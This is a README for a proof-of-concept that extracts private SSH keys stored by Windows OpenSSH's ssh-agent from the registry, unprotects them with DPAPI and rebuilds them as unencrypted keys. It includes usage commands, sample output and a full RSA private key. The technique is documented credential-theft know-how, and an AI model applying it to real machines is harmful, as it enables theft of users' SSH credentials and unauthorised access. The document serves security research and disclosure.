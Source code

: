 # Intro
These scripts are a PoC for how to extract unencrypted private SSH keys from Windows when the new OpenSSH `ssh-agent.exe` is used.

When adding private keys to `ssh-agent`, Windows protects the private keys with DPAPI and stores them as registry entries under `HKCU:\Software\OpenSSH\Agent\Keys`

With elevated privileges, it is possible to pull out the binary blobs from the registry and unprotect them using DPAPI. These blobs can then be restructured into the original, unencrypted private RSA keys.

All credit for the Python code should go to the original implementatoin by soleblaze and his script `parse-mem.py` [here](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py)

# Usage
From an elevated Powershell prompt, use `extract_ssh_keys.ps1` to generate a JSON file which contains the Base64 data of the unprotected SSH keys. This script works by enumerating all SSH keys stored in the registry and calling DPAPI with the "Current User" context to unprotect the binary data.

```
C:\tools> .\extract_ssh_keys.ps1
Pulling key:  .\ropnopkey2
Pulling key:  .\ropnopkey1
extracted_keyblobs.json written. Use Python script to reconstruct private keys: python extractPrivateKeys.py extracted_keyblobs.json
```

The Python script requires Python 3 and the `pyasn1` package. Run the Python script on the saved JSON file to re-construct the original, uncnecrypted RSA private keys:

```
C:\tools> python .\extractPrivateKeys.py .\extracted_keyblobs.json
[+] Key Comment: .\ropnopkey2
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtekm5ikm0lh9fIiqslAUVUAhbI48/+khBFstx7jbz0XfcvAo
XS3wxeer7UeaIXRJAXARy4ARi6fk9W6PfdP3zKFd7D1MV1WG0FAogxWUXOxiYxgZ
yihsYNQ2NQmnVrW2C67+RZ2tTwNEEUGRVPi0QRjLlwXWPm6+0bFF4d0A7ivwTa0+
EYVow48E74v5BMOxW+h87ZassRvAO22vZXV7Tr/VnwM3GoLPXTSAUxVsO0nhDs07
JCXsu8oO7zH3Ql/I330QxAYo3qG0c/Ega3m474vVdIQOYdiaYxmN1u29wR9MAUNx
/fY9yOTc0+prwWVt5GqZ3y89d9PI1VJfqNa6LQIDAQABAoIBAQCLjycHtxSQldEY
BKWojWU8DipWZT2JO+rXs7gInNsORtXqETN2YTNyMY2mSaOG/PaxgrA0RrmvQgyW
+s5dQ4y90iMDhfeWnQgDsyuRfbHIJJZK3geTH7YeB1DbGd/m1xumFQgAkrqOfrvu
3TXJUdDAjGxNHe5DEaWVrIIniO0YyxMV10M2s2D6GtNHBjzop9YDegvkeQxNbO0K
tKcDhJ/QPrkT+J8yCnRpStYC+kNlbOlBKkmdTJ5nhtmlZ8mWqpIgocvKrOZavsAh
7SKpWt/Sjjoc+8wwt4dNiy8WnbHGFPb6W9lxdjDxpmoTn2bQOaS0oo61KJU7m60O
SdgQwtUBAoGBAOXhnKWe2wKN/sx+/PYEvh2bi5xtugcOufCTqFlTYpxsgG0717s2
1Ljwh7yjtTv6bS+6tXFrAy8QhKwLiuXnn8OAaPb9hMbpqGDhk04GcDWP/1oqS/2Y
gMfeoBF6P3+q969kFbZwMCj/zsOEXnwTJGN6bxHBKassslts3Lf8jVjtAoGBAMqU
QY0EebxJAQm3BgsQ0fsNli0CFGAm7iSlYmsSkcbcwZfL9hzxccKZDpZpXr2WV9wf
dqfUoQyowSbZEz5kcuEeRe4Ofzf0ADs0fdMYRg0fvZ9JUCsTq+ecj3U25vNeXW9F
kD7mYnEbY9lMkMvna4uthraxBQEZyyWjHsu2mP5BAoGBALukYFBUjeLU8zILSgKr
NmBGkjw62Mlf/OjiLl3Tkb+rVV1UprCbfiIDvFh/rLTromp+VhLhTfUB37nrphIp
8iAL1iIeKF6RZa7HEo1y9e7SvpXjxqmW7S+4iiIaDnDwpkLVSF/lzXn57NVtXA6d
NWu6CaWNbazazC+Secv464u1AoGAdK2tj75bK3JU8baD+Y2nk9UAgU3oVHU3xs2n
AQrCAesWagrk50i9gBrOBx4LnmDgm/1XR1U1qWftUCXJaq9KZ5UbLAEXjy+vjmou
ao5ZkqeMfRkp3pXG9nD7Q8TqgpQAdt13NnNVkdX3zanG4FqbW+kHZWRSAI9NrZDl
ZOn39sECgYBj6IPFbBxllysESiV6Tcvb98ffKjWBvL3MM4ENfzlH0fCNGNkVPDvn
ufMwjM3PqhUFXVBQHm0eMZDLLcLpLUxxIpiOdmLDk6XhAY+1Vc90OmDrCoADUxdg
Eq/hFJMNz4ZMio4KVd+BUVM2rt4zjq0tcxtOrMABdddCRBkuwhluSQ==
-----END RSA PRIVATE KEY-----
```

Blog post here explaining my process: TODO

## Credits
https://gist.github.com/atifaziz/10cb04301383972a634d0199e451b096
https://blog.netspi.com/stealing-unencrypted-ssh-agent-keys-from-memory/
https://github.com/NetSPI/sshkey-grab

